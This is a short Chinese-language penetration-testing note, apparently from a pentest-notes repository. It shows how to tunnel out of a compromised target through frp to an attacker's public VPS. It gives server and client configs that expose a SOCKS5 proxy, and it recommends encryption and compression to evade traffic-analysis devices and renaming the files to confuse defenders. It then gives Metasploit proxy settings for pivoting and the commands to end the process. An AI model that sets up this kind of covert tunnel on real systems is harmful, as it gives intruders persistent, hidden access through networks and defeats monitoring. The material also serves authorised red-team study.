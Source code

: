 	https://github.com/fatedier/frp/releases/
	使用条件:目标主机通外网，拥有自己的公网ip
	对攻击机外网服务端frps.ini进行配置
	[common]
	bind_port=8080
	靶机客户端
	[common]
	server_addr=服务器端外网IP
	server_port=8080
	[socks5]
	type=tcp
	remote_port=12345
	plugin=socks5
	use_encryption=true
	use_compression=true
	以上是启用加密和压缩，能躲避流量分析设备。
	上传frpc.exe和frpc.ini到目标服务器上,直接运行frpc.exe（在实战中可能会提示找不到配置文件，需要使用-c参数指定配置文件的路径frpc.exe -c 文件路径），可以修改文件名和配置名以混淆视听。
	公网vps主机上运行./frps –c frps.ini
	靶机执行./frpc –c frpc.ini
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/347.png)

	MSF中设置全局变量
	>setg proxies 公网IP:12345
	>setg ReverseAllowProxy true 运行反向代理
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/348.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/349.png)

	结束攻击
	tasklist 
	taskkill /pid 进程号 -t –f
